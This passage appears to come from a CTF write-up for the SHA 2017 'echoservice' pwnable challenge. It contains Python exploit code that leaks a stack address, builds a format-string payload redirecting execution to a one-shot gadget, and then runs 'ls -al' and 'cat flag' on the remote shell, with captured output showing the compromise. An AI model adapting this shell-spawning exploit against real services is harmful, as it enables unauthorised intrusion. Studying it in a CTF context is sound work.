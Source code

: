 ```python
p.sendline(payload)
data = p.recv()
stack_addr = int(data.split("] ")[1][:-1], 16) - 0x150 - 0x400
print "PAYLOAD : {}".format(hex(stack_addr))
leak(stack_addr, 0x40, "&payload")

# for debugging
# stack_addr + 0x40 = "E"*8
# set $rdx=$rbx+0x50

stack_addr += 8

payload =  "%13$@" + "ZZZ"
payload += p64(stack_addr) 				# RBX (stack_addr)
payload += "A2"*4
payload += "B1"*4
payload += "B2"*4
payload += p64(1) 						# cond_3 : *cond_3 & 2 != 0
payload += "C2"*4
payload += "D1"*4
payload += "D2"*4
payload += p64(stack_addr+0x50)         # p64(stack_addr+0x50) -> RDX
payload += "E2"*4
payload += p64(stack_addr+0x50)	        # RDX (=stck_addr+0x50)
payload += p64(stack_addr+0x50+0x30)	# cond_1 : *&cond_1 = 0
payload += p64(one_shot)
payload += "G2"*4
payload += "H1"*4
payload += p64(0x10) 					# cond_1 : < 0x70
payload += p64(0)						# cond_2 : cond_1

leak(stack_addr, 0x80, "&payload")
p.sendline(payload)

p.sendline("ls -al")
print p.recv()

p.sendline("cat flag")
print p.recv()
```

## Result

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ python sol_echoservice.py 1
[+] Opening connection to echo.stillhackinganyway.nl on port 1337: Done
LIBC    : 0x7f3962339000
PAYLOAD : 0x7fffb283e7f0
total 124
drwxr-xr-x  23 root root  4096 Aug 11 06:11 .
drwxr-xr-x  23 root root  4096 Aug 11 06:11 ..
drwxr-xr-x   2 root root 12288 Aug  1 16:24 bin
drwxr-xr-x   3 root root  4096 Aug 11 06:11 boot
drwxr-xr-x  15 root root  3820 Aug  7 10:25 dev
-rwxr-xr-x   1 root root 11352 Aug  1 16:36 echoservice
drwxr-xr-x 103 root root  4096 Aug  4 06:56 etc
-rw-r--r--   1 root root    38 Aug  1 16:36 flag
drwxr-xr-x   4 root root  4096 Aug  1 16:36 home
lrwxrwxrwx   1 root root    30 Aug 11 06:11 initrd.img -> boot/initrd.img-4.4.0-1030-aws
lrwxrwxrwx   1 root root    30 Aug  4 06:56 initrd.img.old -> boot/initrd.img-4.4.0-1028-aws
drwxr-xr-x  21 root root  4096 Jun 20 00:08 lib
drwxr-xr-x   2 root root  4096 Jun 19 23:49 lib64
```